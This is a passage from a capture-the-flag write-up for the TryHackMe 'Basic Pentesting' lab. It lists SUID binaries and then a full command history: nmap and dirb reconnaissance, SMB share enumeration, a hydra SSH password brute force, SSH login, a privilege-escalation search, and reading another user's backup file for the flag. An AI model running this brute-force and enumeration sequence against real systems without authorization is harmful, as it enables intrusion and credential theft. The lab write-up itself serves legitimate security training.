 ```bash
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/passwd
/bin/su
/bin/ntfs-3g
/bin/ping6
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
```
23. `vim {FILE4}.bak` to open the backup file with the Vim text editor, which ended up revealing the final password for this challenge 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20Basic%20Pentesting/vim.png)

**Romm completed!**

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/TryHackMe%20-%20Basic%20Pentesting.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `dirb http://{TARGET IP} -r > {FILENAME2}.txt`
4. `cat {FILENAME2}.txt`
5. `firefox "http://{TARGET-IP}/{HIDDEN-DIRECTORY}"`
6. `curl http://10.10.254.39/{HIDDEN DIRECTORY}/{FILE1}.txt`
7. `curl http://10.10.254.39/{HIDDEN DIRECTORY}/{FILE2}.txt`
8. `smbmap -L {TARGET IP}`
9. `smbclient //{TARGET IP}/{SHARENAME1} -c "ls"`
10. `smbclient //{TARGET IP/{USER} -c "get {FILE3}.txt"`
11. `cat {FILE3}.txt`
12. `hydra -l {USER2} -P {WORDLIST PATH} ssh//{TARGET IP}`
13. `ssh {USER2}@{TARGET IP} -p 22`
14. `whoami`
15. `ls`
16. `ls /`
17. `ls /home`
18. `ls /home/kay`
19. `cat /home/kay/{FILE4}.bak`
20. `sudo -l`
21. `find / -perm -u=s -type f 2>/dev/null`
22. `vim {FILE4}.bak`

# Dissecting Some Commands
`nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
+ `-sC` enables the use of default scripts during the scan, which runs a set of commonly used scripts against the target IP to try to find any vulnerabilities
+ `-sV` enables version detection, which attempts to determine the sevice and version information of the open ports
+ `> {FILENAME1}.txt` redirects the results into a text file
